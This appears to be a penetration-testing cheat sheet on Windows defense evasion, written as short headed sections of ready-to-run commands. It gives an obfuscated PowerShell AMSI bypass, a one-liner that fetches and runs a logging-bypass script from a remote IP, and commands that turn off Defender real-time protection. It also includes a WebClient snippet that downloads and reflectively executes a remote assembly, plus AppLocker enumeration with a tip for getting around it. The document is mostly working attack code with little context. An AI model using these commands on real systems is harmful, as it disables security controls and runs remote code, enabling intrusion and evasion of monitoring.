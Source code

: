 # Evasion

### Bypass AMSI

First bypass the Enhanced Script Block Logging

```powershell
iex (iwr http://172.16.99.115/sbloggingbypass.txt -UseBasicParsing)
```

To bypass the AMSI

{% code overflow="wrap" %}
```
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```
{% endcode %}

### Disable AV

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
Set-MpPreference -DisableIOAVprotection $true -Verbose
```

### Execute exe

bypass amsi and then

{% code overflow="wrap" %}
```powershell
$data=(New-Object System.Net.WebClient).DownloadData('<URL>');
$asm = [System.Reflection.Assembly]::Load([byte[]]$data);
$out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($sWriter);
[<Program>.Program]::Main("");[Console]::SetOut($out);$sWriter.ToString()
```
{% endcode %}

### Constrained Language

<figure><img src="../.gitbook/assets/Pasted image 20231220160920.png" alt=""><figcaption></figcaption></figure>

Cannot create type. Only core types are supported in this language mode.

To check if you're running in constrained language mode on local

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2
```

on remote

```
reg query 
HKLM\Software\Policies\Microsoft\Windows\SRPV2 -ComputerName <MACHINE NAME>
```

<figure><img src="../.gitbook/assets/Pasted image 20231220161133 (1).png" alt=""><figcaption></figcaption></figure>

{% code overflow="wrap" %}
```powershell
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections -ComputerName <MACHINE NAME>
```
{% endcode %}

<figure><img src="../.gitbook/assets/Pasted image 20231220161307.png" alt=""><figcaption></figcaption></figure>

It say that we can run program inside C:\Program Files folder, so download the script inside it and run it
